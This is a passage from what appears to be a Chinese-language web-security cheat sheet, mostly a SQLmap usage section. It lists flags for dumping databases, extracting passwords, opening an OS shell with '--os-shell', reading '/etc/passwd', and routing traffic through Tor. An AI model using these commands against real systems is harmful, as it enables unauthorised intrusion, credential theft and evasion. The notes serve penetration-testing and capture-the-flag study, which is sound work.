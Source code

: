 ```shell=
| 3  | http://i.giphy.com/m7BTtLWhjkEJa.gif               | 9999     | 6666     |
+----+----------------------------------------------------+----------+----------+
```



## SQLmap

- https://github.com/sqlmapproject/sqlmap/wiki/Usage
- Usage
    - `python sqlmap.py -u 'test.kaibro.tw/a.php?id=1'`
        - 庫名: `--dbs`
        - 表名: `-D dbname --tables`
        - column: `-D dbname -T tbname --columns`
        - dump: `-D dbname -T tbname --dump`
            - `--start=1`
            - `--stop=5566`
        - DBA? `--is-dba`
        - 爆帳密: `--passwords`
        - 看權限: `--privileges`
        - 拿shell: `--os-shell`
        - interative SQL: `--sql-shell`
        - 讀檔: `--file-read=/etc/passwd`
        - Delay時間: `--time-sec=10`
        - User-Agent: `--random-agent`
        - Thread: `--threads=10`
        - Level: `--level=3`
            - default: 1
        - `--technique`
            - default: `BEUSTQ`
        - Cookie: `--cookie="abc=55667788"`
        - Tor: `--tor --check-tor --tor-type=SOCKS5 --tor-port=9050`
